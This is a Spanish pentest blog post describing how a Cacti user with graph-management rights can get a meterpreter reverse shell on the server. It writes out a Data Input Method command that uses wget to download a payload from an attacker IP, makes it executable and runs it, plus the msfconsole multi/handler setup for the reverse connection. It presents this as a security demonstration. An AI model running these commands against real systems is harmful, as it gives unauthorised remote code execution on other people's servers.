 ```yaml
---
title: "Obteniendo una sesión meterpreter a través de la interfaz web de Cacti"
author: Adan Alvarez
classes: wide
excerpt: "En la siguiente entrada se detalla como un usuario con permisos para gestionar gráficas en Cacti podría obtener acceso al servidor mediante una sesión meterpreter a través de una funcionalidad que ofrece Cacti."
categories:
  - Pentest
tags:
  - Red Team
  - Vulnerabilidades
---
```

En la siguiente entrada se detalla como un usuario con permisos para gestionar gráficas en [Cacti](http://www.cacti.net/) podría obtener acceso al servidor mediante una sesión meterpreter a través de una funcionalidad que ofrece Cacti.
{: style="text-align: justify;"}

En primer lugar creamos nuestro payload utilizando msfpayload:
{: style="text-align: justify;"}

[![msfpayload](https://donttouchmynet.github.io/assets/images/old/msfpayload-300x32.png)](https://donttouchmynet.github.io/assets/images/old/msfpayload.png)

Donde IP será la IP a la cual se conectará de forma reversa el payload.
{: style="text-align: justify;"}

Una vez creado el payload, deberemos dejar este en un lugar accesible para ser descargado desde Internet.
{: style="text-align: justify;"}

Después de esto accedemos a la interfaz web de cacti y vamos al apartado Data Input Methods. En este, añadimos un nuevo método del tipo Script/Command y como Input Script introducimos un wget para descargar el payload a la carpeta rra de cacti, introduciendo como IP la ip donde está alojado el fichero, un chmod para dar permisos de ejecución y por último indicamos que se ejecute el payload.
{: style="text-align: justify;"}

**Importante**: Se elige la carpeta rra porque cacti tiene que tener permisos en ella, ya que es la carpeta en la cual se guardan los ficheros rrd.
{: style="text-align: justify;"}

[![inputmethod](https://donttouchmynet.github.io/assets/images/old/inputmethod-300x73.png)](https://donttouchmynet.github.io/assets/images/old/inputmethod.png)
```
*wget -P <path_cacti>/rra/ IP/metercacti.bin; chmod 777 <path_cacti>/rra/metercacti.bin; <path_cacti>/rra/metercacti.bin*
```
Después de añadir el Data Input Method deberemos crear un Data Source que será el encargado de ejecutar este script. Para esto nos dirigimos a Data Sources y añadimos uno nuevo. La única importancia de este data source es que en Data Input Method se llame al método creado en el paso anterior:
{: style="text-align: justify;"}

[![datasource](https://donttouchmynet.github.io/assets/images/old/datasource-300x153.png)](https://donttouchmynet.github.io/assets/images/old/datasource.png)

Una vez seguidos estos pasos,  en la próxima ejecución de cacti, se llamará a nuestro método y se ejecutarán los comandos introducidos. Por esto, accedemos a msfconsole y nos quedamos escuchando a la espera de que se ejecuten.
{: style="text-align: justify;"}

[![msfconsole](https://donttouchmynet.github.io/assets/images/old/msfconsole-300x239.png)](https://donttouchmynet.github.io/assets/images/old/msfconsole.png)
```
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST IP [Donde IP es la ip donde se debe conectar el payload]
exploit
```
Con todo esto en la próxima ejecución de cacti tendremos nuestra sesión meterpreter:
{: style="text-align: justify;"}

[![sesión meterpreter ](https://donttouchmynet.github.io/assets/images/old/meterpreter-300x60.png)](https://donttouchmynet.github.io/assets/images/old/meterpreter.png)

Por último, los privilegios de esta sesión meterpreter serán los mismos que los del usuario que ejecuta el script, si de forma incorrecta se ha configurado el usuario root tendremos acceso total a la máquina. Con esto se demuestra lo importante que es configurar una aplicación de forma correcta y tener controlados los usuarios que tienen acceso al administrador.
{: style="text-align: justify;"}
